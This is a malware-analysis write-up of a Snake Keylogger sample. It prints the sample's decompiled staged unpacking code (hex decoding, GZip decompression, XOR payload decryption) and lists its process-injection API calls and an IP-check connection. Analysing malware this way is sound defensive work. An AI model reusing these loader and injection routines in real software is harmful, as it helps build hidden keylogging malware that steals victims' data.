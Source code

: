 #snakeKeylogger :
SHA256: 8c92fe975db6f552f522fbd9a8e542ae2e78cc0c21bb5e316b883b23e0084038

Sample is Microsoft Visual C# / Basic.NET [ Obfus/Crypted ], and 32 bit executable
File is packed , since the entropy value is high (Entropy: 7.53124(packed))


Decryption loop: 

int num = (text.Length + 1) / 3;
			byte[] array = new byte[num];
			for (int i = 0; i < num; i++)
			{
				char c = text[3 * i];
				bool flag = c > '9';
				if (flag)
				{
					c = c - 'A' + '\n';
				}
				else
				{
					c -= '0';
				}
				char c2 = text[3 * i + 1];
				bool flag2 = c2 > '9';
				if (flag2)
				{
					c2 = c2 - 'A' + '\n';
				}
				else
				{
					c2 -= '0';
				}
				array[i] = (byte)('\u0010' * c + c2);
			}
      
The above loop decryptes the second stage dll executable. Also, invoke member, method info function are being called to enter the second stage.

{Name = "vL" FullName = 
"UO.vL"] 
"UO.vLA6(System.String, System.String, System.String)" 


Second stage decryption loop:

		public static byte[] ND(byte[] \u0020)
		{
			GZipStream gzipStream = new GZipStream(new MemoryStream(\u0020), CompressionMode.Decompress);
			byte[] result;
			try
			{
				byte[] array = new byte[4096];
				MemoryStream memoryStream = new MemoryStream();
				try
				{
					int num;
					do
					{
						num = vd.Fq(gzipStream, array, 0, 4096, vd.dW);
						bool flag = num > 0;
						if (flag)
						{
							global::kT.Fq(memoryStream, array, 0, num, global::kT.sS);
						}
					}
					while (num > 0);
					result = sB.Fq(memoryStream, sB.V1);
				}
				finally
				{
					if (memoryStream != null)
					{
						ae.Fq(memoryStream, ae.af);
					}
				}
			}
			finally
			{
				if (gzipStream != null)
				{
					ae.Fq(gzipStream, ae.af);
				}
			}
			return result;
		}
    
    
    The loop returns another dll file and it is invoked using method info and invoke function.
    
    {Name = "Himentater" FullName = "Munoz.Himentater"}
    
    public static byte[] SearchResult(byte[] BinaryCompatibility, string Opcode)
		{
			byte[] array = \u007F.~\u0093(\u001D.\u0090(), Opcode);
			int num = (int)(BinaryCompatibility[BinaryCompatibility.Length - 1] ^ 112);
			byte[] array2 = new byte[BinaryCompatibility.Length + 1];
			int num2 = 0;
			for (int i = 0; i <= BinaryCompatibility.Length - 1; i++)
			{
				int num3 = (int)BinaryCompatibility[i] ^ num ^ (int)array[num2];
				array2[i] = (byte)num3;
				bool flag = num2 == \u0014.~\u0080(Opcode) + 100 - 101;
				if (flag)
				{
					num2 = 0;
				}
				else
				{
					num2 = num2 + 200 - 199;
				}
			}
			Array.Resize<byte>(ref array2, BinaryCompatibility.Length - 1);
			return array2;
		}
    
    The above loop decrypts the acutal payload and invoked the below function.
    
    {Name = "Gq" FullName = "KW.Gq"}
    
    The acutal payload:
    08b07fb8ba550a1b9e1fa53797d69dc6
    
    It is resolving virutalALlocEX,CreateProcessA, NTunmapviewsection, SetThreadContext, ReadProcessMEmory (codeInjection)
    Also tries to connect to checkip.dyndns.org
    found strings related to snakeKeylogger.
